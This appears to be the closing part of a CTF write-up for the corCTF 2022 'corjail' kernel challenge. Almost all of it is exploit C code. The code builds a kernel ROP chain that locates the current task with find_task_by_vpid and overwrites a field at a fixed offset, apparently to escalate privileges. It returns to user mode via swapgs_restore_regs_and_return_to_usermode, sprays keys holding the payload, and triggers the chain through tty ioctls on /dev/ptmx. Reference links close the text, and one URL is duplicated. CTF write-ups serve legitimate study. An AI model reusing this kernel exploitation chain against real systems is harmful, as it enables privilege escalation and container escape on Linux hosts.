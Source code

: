 ```exploit.c
    *rop++ = KADDR(0xffffffff8131dab0); // push rax; pop rbx

    *rop++ = KADDR(0xffffffff81906510); // pop rdi
    *rop++ = getpid();
    *rop++ = KADDR(0xffffffff810e4fc0); // find_task_by_vpid

    *rop++ = KADDR(0xffffffff8117668f); // pop rdx
    *rop++ = 0x6E0;
    *rop++ = KADDR(0xffffffff81029e7d); // add rax, rdx
    *rop++ = KADDR(0xffffffff817e1d6d); // mov qword [rax], rbx ; pop rbx ; ret ; (1 found)
    *rop++ = 0; // trash


    *rop++ = KADDR(0xffffffff81c00ef0 + 0x16); // swapgs_restore_regs_and_return_to_usermode + 0x16
                                               // mov rdi,rsp; mov rsp,QWORD PTR gs:0x6004; push QWORD PTR [rdi+0x30]; ...
    *rop++ = 0;
    *rop++ = 0;
    *rop++ = (ulong)NIRUGIRI;
    *rop++ = user_cs;
    *rop++ = user_rflags;
    *rop++ = (ulong)krop_stack + KROP_USTACK_SIZE / 2;
    *rop++ = user_ss;

    printf("[+] size: 0x%lx\n", (ulong)rop - (ulong)key_payload);
    assert((ulong)rop - (ulong)key_payload <= NUM_3RD_KEY_SIZE);
    assert(512 < NUM_3RD_KEY_SIZE + 0x10 && NUM_3RD_KEY_SIZE + 0x10 < 1024);
    for (int ix = 0; ix != NUM_3RD_KEY_SPRAY; ++ix) alloc_key(key_payload, NUM_3RD_KEY_SIZE + 0x10, NULL);
  }

  // Invoke tty_struct.ops.ioctl
  puts("[+] ioctl-ing to /dev/ptmx");
  for (int ix = 0; ix != NUM_TTY_SPRAY; ++ix) {
    ioctl(tty_fd[ix], 0x1234567890, 0xABCDE0000);
  }

  // end of life (unreachable)
  puts("[ ] END of life...");
  //sleep(999999);
}
```

# 参考

- [Author's writeup](https://syst3mfailure.io/corjailhttps://syst3mfailure.io/corjail)
- [corCTF2022 archive](https://github.com/Crusaders-of-Rust/corCTF-2022-public-challenge-archive/tree/master/pwn/corjail/task/build)
